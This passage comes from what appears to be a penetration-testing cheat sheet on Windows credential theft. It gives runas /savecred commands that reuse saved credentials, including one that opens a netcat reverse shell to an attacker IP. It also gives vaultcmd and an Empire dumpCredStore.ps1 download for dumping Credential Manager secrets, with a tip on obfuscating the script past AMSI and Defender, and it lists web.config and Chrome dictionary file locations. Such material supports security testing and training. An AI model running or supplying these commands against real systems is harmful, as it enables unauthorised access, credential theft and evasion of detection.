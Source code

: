 ```shell
C:\Windows\System32\runas.exe /env /noprofile /user:<USERNAME> "c:\users\public\nc.exe -nc <IP> 4444 -e cmd.exe"
runas /savecred /user:<HOSTNAME>\<USERNAME> <PATH>\shell.exe
runas /savecred /user:<HOSTNAME>\<USERNAME> /profile cmd.exe
C:\Windows\System32\runas.exe /user:<USER> /savecred "C:\Windows\System32\cmd.exe /c <COMMAND>"
```

### #2. Remote Desktop

When attempting to RDP to the host, the saved credentials will be used:

![The "Computer" will be the Target.](../../../.gitbook/assets/remote\_desktop\_savecred.png)
{% endtab %}

{% tab title="Extract" %}
It is possible to extract the credentials in clear text from the Credential Manager.

### vaultcmd.exe

```
vaultcmd /listcreds:"Windows Credentials"
```

### dumpCredStore.ps1 (Empire)

```powershell
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/dumpCredStore.ps1
# Transfer module to compromised machine.
Import-Module .\dumpCredStore.ps1 ; Enum-Creds
```

{% hint style="info" %}
This script can be obfuscated to avoid detection by AMSI and Windows Defender.
{% endhint %}
{% endtab %}
{% endtabs %}

## Web Server (configs files)

```powershell
# General web config:
C:\inetpub\wwwroot\web.config
# IIS Web Config:
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

## Chrome Dictionary Files

Another interesting case is dictionary files. For example, sensitive information, such as passwords, can be entered into an e-mail client or browser-based application, which underlines words it does not recognize. The user can add these words to his dictionary to avoid the annoying red underlining.
